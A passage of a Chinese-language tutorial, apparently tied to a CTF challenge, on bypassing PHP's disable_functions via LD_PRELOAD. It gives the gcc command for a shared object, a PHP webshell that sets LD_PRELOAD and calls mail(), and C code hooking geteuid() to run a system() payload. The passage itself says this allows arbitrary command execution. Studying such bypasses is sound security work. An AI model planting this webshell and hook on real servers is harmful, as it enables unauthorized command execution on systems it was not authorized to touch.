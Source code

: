 

```
gcc -shared -fPIC test.c -o test_x64.so
```



### 上传.so文件

上传的方式很多，一般来说，如果能getshell的话应该都有写权限，在suctf2019-easyphp一题中上传了.htaccess文件来覆盖解析，达到文件上传的绕过，从而getshell，在这种情况下，利用现成的上传点或者通过写权限新增一个上传点。





### 写入webshell

test2.php

```
<?php
putenv("LD_PRELOAD=/var/www/hack.so");
mail("[email protected]","","","","");
?>
```



在浏览器中访问 webshell 就可以执行我们预期的语句了。按照此理，我们可以执行任意特定权限的命令。

![1567069322886](通过LD_PRELOAD绕过disable_functions.assets/1567069322886.png)

这里我的ubuntu是没有安装sendmail的，但同样执行成功。一开始不知道怎么找原因，后面感谢我舍友的指点才发现。

在.c中加入死循环来判断到底哪个函数调用了geteuid()

test.c

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
void payload() {
        system("touch /var/www/html/success");
}   
int  geteuid() {
	if (getenv("LD_PRELOAD") == NULL) { return 0; }
	while(1){}
	unsetenv("LD_PRELOAD");
	payload();
}
```
